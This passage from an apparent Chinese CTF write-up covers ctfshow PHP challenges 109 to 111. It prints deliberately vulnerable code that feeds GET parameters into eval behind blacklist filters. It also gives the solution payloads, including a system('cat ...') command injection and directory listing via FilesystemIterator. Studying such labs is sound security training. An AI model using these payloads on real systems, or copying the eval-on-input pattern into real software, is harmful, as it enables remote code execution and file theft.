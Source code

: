 > hint的做法：
> // 利用php异常处理类 http://c.biancheng.net/view/6253.html
>
> ```
> ?v1=Exception&v2=system('cat fl36dg.txt')
> ?v1=Reflectionclass&v2=system('cat fl36dg.txt')
> ```

## 110-FilesystemIterator

```php
if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v1)){
            die("error v1");
    }
    if(preg_match('/\~|\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]/', $v2)){
            die("error v2");
    }

    eval("echo new $v1($v2());");

}
```

添加了过滤，修复了109构造闭合rce的非预期

利用 FilesystemIterator 获取指定目录下的所有文件
[PHP: FilesystemIterator - Manual](https://www.php.net/manual/zh/class.filesystemiterator.php)
getcwd获取当前路径

```
?v1=FilesystemIterator&v2=getcwd
```

## 111-全局变量GLOBALS

```php
function getFlag(&$v1,&$v2){
    eval("$$v1 = &$$v2;");
    var_dump($$v1);
}

if(isset($_GET['v1']) && isset($_GET['v2'])){
    $v1 = $_GET['v1'];
    $v2 = $_GET['v2'];

    if(preg_match('/\~| |\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]|\<|\>/', $v1)){
            die("error v1");
    }
    if(preg_match('/\~| |\`|\!|\@|\#|\\$|\%|\^|\&|\*|\(|\)|\_|\-|\+|\=|\{|\[|\;|\:|\"|\'|\,|\.|\?|\\\\|\/|[0-9]|\<|\>/', $v2)){
            die("error v2");
    }
    
    if(preg_match('/ctfshow/', $v1)){
            getFlag($v1,$v2);
    }
}
```

